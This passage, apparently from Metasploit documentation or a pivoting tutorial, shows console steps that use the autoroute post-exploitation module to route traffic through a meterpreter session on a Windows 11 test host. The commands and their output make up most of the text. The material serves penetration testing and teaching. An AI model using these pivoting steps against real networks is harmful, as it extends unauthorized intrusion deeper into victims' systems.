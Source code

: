 ```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/multi/manage/autoroute 
msf6 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, auto
                                       add, print, delete, default)
   NETMASK  255.255.255.0    no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION                   yes       The session to run this module on
   SUBNET                    no        Subnet (IPv4, for example, 10.10.10.0)

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 169.254.0.0
SUBNET => 169.254.0.0
msf6 post(multi/manage/autoroute) > set NETMASK /16
NETMASK => /16
msf6 post(multi/manage/autoroute) > show options

Module options (post/multi/manage/autoroute):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CMD      autoadd          yes       Specify the autoroute command (Accepted: add, auto
                                       add, print, delete, default)
   NETMASK  /16              no        Netmask (IPv4 as "255.255.255.0" or CIDR as "/24"
   SESSION  1                yes       The session to run this module on
   SUBNET   169.254.0.0      no        Subnet (IPv4, for example, 10.10.10.0)

msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against WIN11-TEST
[*] Searching for subnets to autoroute.
[+] Route added to subnet 169.254.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.19.176.0/255.255.240.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > 
```
If we now use Meterpreter's `route` command we can see that we have two route table entries within Metasploit's routing table, that are tied to Session 1, aka the session on the Windows 11 machine. This means anytime we want to contact a machine within one of the networks specified, we will go through Session 1 and use that to connect to the targets.

```
msf6 post(multi/manage/autoroute) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   169.254.0.0        255.255.0.0        Session 1
   172.19.176.0       255.255.240.0      Session 1

[*] There are currently no IPv6 routes defined.
msf6 post(multi/manage/autoroute) > 
```
